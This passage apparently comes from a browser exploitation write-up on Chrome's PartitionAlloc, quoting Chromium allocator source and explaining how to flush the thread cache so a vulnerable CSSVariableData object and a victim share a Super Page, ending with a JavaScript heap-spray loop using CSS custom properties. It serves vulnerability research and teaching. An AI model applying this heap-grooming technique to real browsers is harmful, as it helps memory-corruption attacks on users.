 ```cpp
      sizeof(CSSVariableData) + (original_text.Is8Bit()
                                     ? original_text.length()
                                     : 2 * original_text.length());
  void* buf = WTF::Partitions::FastMalloc(
      bytes_needed, WTF::GetStringWithTypeName<CSSVariableData>());
  return base::AdoptRef(new (buf) CSSVariableData(
      original_text, is_animation_tainted, needs_variable_resolution,
      has_font_units, has_root_font_units, has_line_height_units));
}
```

Well, it seems like a great target, but now we need to discuss which
bucket this object will be allocated in. Due to the thread cache, the
objects won't be placed together. We need to force the thread cache to 
clear the bucket so that our vulnerable object and victim share the same
Super Page. Luckily, this is quite simple to do. We just need to fill the
cache up to the "limit", as can be seen in this comment:

```cpp
// base/allocator/partition_allocator/src/partition_alloc/thread_cache.cc:586

// For each bucket, there is a |limit| of how many cached objects there are in
// the bucket, so |count| < |limit| at all times.
// - Clearing: limit -> limit / 2
// - Filling: 0 -> limit / kBatchFillRatio
```

The code that executes this subroutine can be seen below:

```cpp
// base/allocator/partition_allocator/src/partition_alloc/thread_cache.h:511

PA_ALWAYS_INLINE bool ThreadCache::MaybePutInCache(uintptr_t slot_start,
                                                   size_t bucket_index,
                                                   size_t* slot_size) {
  PA_REENTRANCY_GUARD(is_in_thread_cache_);
  ...
  auto& bucket = buckets_[bucket_index];
  ...
  uint8_t limit = bucket.limit.load(std::memory_order_relaxed);
  // Batched deallocation, amortizing lock acquisitions.
  if (PA_UNLIKELY(bucket.count > limit)) {
    ClearBucket(bucket, limit / 2);
  }
  ...
```

Now let's create this layout with JS. How can we manipulate these objects
to create a perfect layout?

First, let's force the allocation of a new Super Page to have more
control, for this, we can simply do several sprays

```cpp
let div0 = document.getElementById('div0');
for (let i = 0; i < 30; i++) {
  div0.style.setProperty(`--sprayA${i}`, kCSSString);
  div0.style.setProperty(`--sprayC${i}`, kCSSStringCross0x2000);
  div0.style.setProperty(`--sprayB${i}`, kCSSStringHRTF);
}
```
